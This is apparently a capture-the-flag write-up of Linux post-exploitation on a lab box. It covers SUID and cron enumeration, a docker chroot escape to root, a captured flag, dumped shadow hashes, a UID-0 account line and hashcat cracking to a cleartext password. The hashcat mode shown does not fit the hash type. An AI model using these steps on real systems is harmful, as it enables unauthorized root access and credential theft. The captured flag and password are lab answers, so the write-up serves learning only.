 
I think now we got the shell of this box let's do some recon and see what we can do
![[Pasted image 20240818125838.png]]


```
c43l:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:0:0:root:/root:/bin/bash
```


```
www-data@ip-10-201-11-33:/var/www$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/docker
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chsh
```


```
www-data@ip-10-201-11-33:/var/www$ env
env
PWD=/var/www
APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=2806c7ef0c06427c965da7c8024dbae2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
TERM=xterm
term=xterm
APACHE_RUN_GROUP=www-data
APACHE_LOCK_DIR=/var/lock/apache2
SHLVL=3
LC_CTYPE=C.UTF-8
APACHE_RUN_DIR=/var/run/apache2
JOURNAL_STREAM=9:23813
APACHE_RUN_USER=www-data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/var/www/html
_=/usr/bin/env
```


```
www-data@ip-10-201-11-33:/var/www$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
www-data@ip-10-201-11-33:/var/www$ 
```


```
www-data@ip-10-201-11-33:/var/www$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

## So it's time to get privilege escalation escalation

Docker
```
docker run -v /:/mnt --rm -it cb1b741122e8 chroot /mnt sh
```

![[Pasted image 20240818160415.png]]

We got the root access but the wrong once so will again access the right docker (i.e. ubuntu 18.04)
```
docker run -v /:/mnt --rm -it 56def654ec22 chroot /mnt sh
```

I was not able to find the root flag so we have repository name with ubuntu 18.04


So this time we get the right shell and got the root.txt so i have to keep this in mind that it was a loop hole and i have to do some smart work and choose the right way
```
# cat root.txt
cat root.txt
HOLO{e16581b01d445a05adb2e6d45eb373f7}
```


I have cat the /etc/shadow and got some hashes
```
ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::
```

```
linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
```

## Hashcat

```
.\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```

It took around 3-4 hours to do this 

![[Pasted image 20240821232619.png]]

We have the linux password
```
linuxrulez
```
